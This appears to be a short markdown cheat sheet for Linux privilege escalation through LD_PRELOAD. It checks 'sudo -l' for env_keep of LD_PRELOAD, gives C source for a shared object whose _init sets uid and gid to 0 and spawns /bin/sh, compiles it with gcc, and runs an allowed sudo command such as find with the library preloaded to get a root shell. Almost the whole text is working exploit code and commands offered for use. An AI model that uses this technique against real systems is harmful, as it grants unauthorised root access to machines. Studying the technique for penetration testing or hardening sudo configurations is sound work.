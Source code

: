 # Linux Privilege Escalation with LD_PRELOAD
## Prerequisite Checking
```bash
sudo -l | grep env
```
- `env_keep+=LD_PRELOAD` should be exposed
## Payload Creation
- Generate this C-code and save to `/tmp`
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
- Assume I save at `/tmp/shell.c`
- Then, create `shell.so` 
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
```
## Exploitation
- Select any sudo command in `sudo -l`
- It will be good if you can find `(root) NOPASSWD:` so that you won't need user password.
```bash
sudo LD_PRELOAD=/tmp/shell.so <you_selected_sudo_command>
```
- For example, I found `(root) NOPASSWD: /usr/bin/find`
- Then, the exploitation will be
```bash
sudo LD_PRELOAD=/tmp/shell.so find
```